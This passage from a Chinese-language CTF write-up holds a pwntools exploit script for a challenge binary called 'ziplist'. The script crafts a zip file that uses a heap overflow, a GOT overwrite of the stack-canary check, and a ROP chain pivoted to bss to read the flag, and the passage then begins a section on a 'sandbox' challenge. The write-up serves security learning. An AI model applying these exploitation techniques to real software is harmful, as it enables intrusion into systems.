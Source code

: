 ```python
rop = p64(new_rbp) + p64(pop_rdi_ret) + p64(flag_addr) + p64(pop_rsi_r15_ret) + p64(0x100) + p64(0) + p64(readfile) + b'flag'.ljust(0x8, b'\x00')

payload = write_to(___stack_chk_fail_got, p64(ret))
for i in range(0, len(rop), 0x48):
    if i + 0x48 >= len(rop):
        payload += write_to(bss + i, rop[i:len(rop)])
    else:
        payload += write_to(bss + i, rop[i:i+0x48])

comment = b'\xff'*0x60 + p64(bss) + p64(leave_ret) + b'\xff'*8
EOCD = b'\x06\x05KP'[::-1].ljust(10, b'\xff') + p16(num_cendir) + b'\x00'*DWORD + p32(off_cendir) + p16(len(comment)) + comment
payload += EOCD

open('meow.zip', 'wb').write(payload)
r = process(["./ziplist", "./meow.zip"])
r.interactive()
```

先把 canary 的 check function `___stack_chk_fail` 寫成 `ret`，這樣 canary 就不會壞掉，之後 stack pivoting (`leave ret`) 到 bss，執行透過 heap overflow 任意寫的 ROP 來執行 `readfile("flag", 0x100)`，得到 flag `KOSENCTF{H3ap0v3rfl0w+G0T0v3rwrit3+KillSSP+Buff3r0v3rfl0w}`。



- SSP (Stack Smashing Protector)，也就是:

  - ```assembly
    mov     rbx, [rbp+v18_canary]
    xor     rbx, fs:28h
    jz      short loc_400FD4
    call    ___stack_chk_fail
    ```

### Sandbox

```
// file
sandbox: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=c154bf9b855b1e9000196f2ce54fdbb474fe3984, not stripped

// checksec
[*] '/tmp/tmp/challenges/sandbox/build/sandbox'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

seccomp:
